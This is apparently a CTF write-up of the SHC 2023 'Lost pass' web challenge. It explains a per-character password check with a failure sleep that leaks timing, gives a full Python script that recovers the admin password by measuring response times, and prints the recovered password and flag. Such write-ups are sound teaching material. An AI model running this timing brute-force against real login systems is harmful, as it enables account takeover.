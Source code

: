 ### Intro
Swiss hacking challenge is a swiss national CTF, made to select the best hackers for ECSC and other competitions. Although I am not swiss,
I wanted to know more about the /mnt/41n team, the friendly rivalry with France ( it seems to run many years back in ECSC circuit) and memes.

# SHC 2023 - Lost pass (WEB) 

## Description

Looks like somebody lost his password.

We are given website [source code](https://github.com/eqqn/eqqn.github.io/blob/master/uploads/lost_pass.zip) for the website. It's a python Flask application.

### Looking around
The frontend presents you a login form. The `register` buttons do not submit any data and we get HTTP 405 - Method not allowed. 
The /register API is defined in the source code provided, and I could register as a user, and receive a JWT token to toy with.

` curl -X POST hxxp://chall.m0unt41n.ch:31063/register -d 'username=USER&password=PASS' `

### Code analysis

There is a lot going on in this code, I was jumping around and doing all the wrong things initially. 

The goal is to login to the page as admin, as the template will render the flag, if you are logged in as admin.
``` python
    if user["username"] == "admin":
        return render_template('dashboard.html', message=f"Your secret is: {open('flag.txt', 'r').read()}")
    return render_template('dashboard.html', message=f"lettuce")
```



``` python
sys.set_int_max_str_digits(0)
app.config['SECRET_KEY'] = secrets.token_hex(20)
```
*set_int_max_str_digits(0)* did not run initially, needing python3.11. I commented it out and tried to run it locally, 
TLDR - its a DOS mitigation[1],[2], setting it at 0 does not affect integer calc and actually disables it. No relevance in integer(crypto?) operations.

The secret is generated on startup securely and hashcat will not even let you do a 16^20 search.

There are also some SQL queries done, but no luck there.
``` python
def error_log(username, password):
    if username == "admin":
        f = open("error.log", "w")
        time.sleep(1)  #this is kind of interesting...
        f.write(f"SOMEONE TRIED TO LOGIN AS ADMIN USING {password} !!!1!11!!")
        f.close()
    return False
```
This initially looked interesting, if we could inject into {password} variable. We can, but python f strings are solid enough. 
I got the application to run locally and tried passing python commands as password, but no luck. We will use the `time.sleep(1)` later!

``` python
@app.route('/dashboard', methods=['GET'])
@auth_required
def dashboard(token):
    user = db.getUserbyId(token["id"])
    if user["username"] == "admin":
        return render_template('dashboard.html', message=f"Your secret is: {open('flag.txt', 'r').read()}")
    return render_template('dashboard.html', message=f"lettuce")
```
the `user["username"] == "admin"` comparison is solid, creating "weird" usernames like `admin\n` or `admin[]` did not pass.

### The vulnerability
Perhaps obvious, but the password generation has a flaw (besides using md5)- it compares the hash of **each character** rather than the whole string... 
``` python
def check_password(username, hashed_password, password):
    hashed_password = hashed_password.split(",")
    for x in range(len(hashed_password)):
        try:
            if hash_char(password[x]) != hashed_password[x]:
                return error_log(username, password)
        except:
            return False
    return True
  
def hash_char(char):
    return hashlib.md5(char.encode()).hexdigest()[:20]
```
This opens the doors for a Timing Attack.  To confirm the theory, I tried comparing times of the first letter of the pass. 
I observed that with the first password character "d", the response time was short. If we did not provide another wrong character, 
then error ( and 1 second sleep!) is never performed. 

I wrote a script, tested locally, and I was able to recover my dummy secret. 

``` python
import requests
import time

headers = {
    'Content-Type': 'application/x-www-form-urlencoded',
    'Connection': 'keep-alive'
}
charlist='1234567890abcdefghijklmnopqrstuvwxyz'
data = {'username': 'admin','password': 'a'}

def tracer(text):
    data = {'username': 'admin','password': text}
    start_time=time.time()
    response = requests.post('http://chall.m0unt41nD3w.ch:30902/login', headers=headers, data=data)
    duration=time.time() - start_time
    print( "%s--- %s seconds" %(text, duration))
    return duration

i=0
password=''
while True:
    letter=charlist[i]
    attempt=password+letter
    duration=tracer(attempt)
    i=i+1
    if duration <1: #good outcome
        time.sleep(0.1)
        duration=tracer(attempt)
        if duration < 1:
            password=attempt
            i=0
    time.sleep(0.1)
```
![Password recovery](https://eqqn.github.io/images/shc_lp_ducksnice.png)


I unleashed it on the challenge website and recovered the password for admin :
`ducksnice`

![flag](https://eqqn.github.io/images/shc_lp_flag.png)
Login and get the flag! 
shc{ducks_like_2_sleep_quack}

[1]https://github.com/python/cpython/issues/95778
[2]https://python-forum.io/thread-38185.html
